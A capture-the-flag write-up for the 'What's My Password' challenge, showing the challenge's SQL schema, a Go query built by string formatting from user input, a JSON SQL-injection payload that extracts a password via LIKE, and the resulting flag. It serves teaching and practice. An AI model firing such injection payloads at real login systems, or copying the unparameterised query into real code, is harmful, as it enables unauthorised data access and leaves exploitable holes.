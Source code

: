 # What's My Password

### Solution

From the given zip file, we get a SQL file contains some information about the database. There is a ```users``` table with two columns, ```username``` and ```password```. There are 3 users defined but ```skat```'s password is redacted.

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```
We also get Go file named ```main``` that contains ```SELECT``` statement for the response.
```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```
Since there is no parameter verification for password, we can assume that password field is vulnerable to SQLi. We can use this payload to get the password. 


```json
{
"username":"skat","password":"'\" OR (username = \"skat\" AND password LIKE \"irisctf%\") OR \"'"
}
```

If the JSON payload is substituted into the SQL statement, it will looks like this

```sql
SELECT * FROM users WHERE username = "skat" AND password = "'" OR (username = "skat" AND password LIKE "irisctf%") OR "'"
```

### Flag 
The flag for this challenge is ```irisctf{my_p422W0RD_1S_SQl1}```
